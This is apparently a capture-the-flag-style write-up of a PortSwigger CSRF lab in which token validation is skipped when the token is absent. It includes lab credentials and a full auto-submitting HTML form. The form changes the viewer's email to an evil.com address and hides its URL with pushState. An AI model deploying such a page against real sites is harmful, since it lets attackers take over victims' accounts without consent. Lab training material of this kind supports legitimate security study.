 # Practitioner Lab 79 : CSRF where token validation depends on token being present

---

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

I first start by looking around the website to see its functionality.

I first try to take out the CSRF from the request to see if it would give me any type of error.

![Untitled](Practitioner%20Lab%2079%20CSRF%20where%20token%20validation%20de%20b96f82aeaddf4d1a8670bcd5bb09c44a/Untitled.png)

This worked showing that I can sometimes take out the complete parameter and it might still work. One should always test by taking out the parameter as well as trying different methods. 

```
<html>
  <body>
    <form action="https://0a9a00cd037eb89c80d92be7004600ce.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="evilpayload&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![Untitled](Practitioner%20Lab%2079%20CSRF%20where%20token%20validation%20de%20b96f82aeaddf4d1a8670bcd5bb09c44a/Untitled%201.png)
